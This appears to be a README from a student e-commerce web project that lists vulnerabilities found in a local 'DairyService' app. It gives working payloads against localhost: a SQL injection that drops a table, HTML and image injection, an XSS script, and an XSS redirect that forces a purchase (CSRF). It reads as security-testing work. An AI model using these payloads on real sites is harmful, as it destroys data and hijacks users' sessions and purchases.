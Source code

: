 # e-Commerce-App
Web app front-end developed  using HTML5 and CSS while back-end data is extracted from  existing APIs with  JavaScript/xml.

N01:	SQL Injection is possible within the search section.
	http://localhost:8188/DairyService.svc/search?term=jbon007%27;%20drop%20table%20Comments;%20--
	

N02:	HTML Injection is possible within the comments section.

	POST http://localhost:8188/DairyService.svc/comment?name=HTML%20Injected
	Content-Type: application/json
	Content-Length: 50
	Host: http://localhost:8188

	<style>*{background-color:pink}</style>


N03: 	HTML image Injection is possible within the comments section.

	POST http://localhost:8188/DairyService.svc/comment?name=Image%20Injected
	Content-Type: application/json
	Content-Length: 100
	Host: http://localhost:8188


	<img src= "https://i1.pickpik.com/photos/388/52/975/cow-funny-ruminant-cute-preview.jpg">


N04: 	XSS (user-supplied script) Injection is possible within the comments section.

	POST http://localhost:8188/DairyService.svc/comment?name=XSS
	Content-Type: application/json
	Content-Length: 50
	Host: http://localhost:8188


	<script>alert("Dont Stay Safe. Do not Wash your hands.")</script>


N05:	CSRF (cross-site request forgery) attacks could be mounted on the service if a user who has already
	logged into his/her account within the website clicks onto a URL which was altered on the website 
	to perform an action which the user did not intend to do such as linking the user to the "buy now" 
	button thus causing the user to purchase an item unintentionally. 

N06:
	POST http://localhost:8188/DairyService.svc/comment?name=XSS
	Content-Type: application/json
	Content-Length: 50
	Host: http://localhost:8188

	<script>window.location = "http://localhost:8189/Service.svc/buy?id=jbon007"</script>
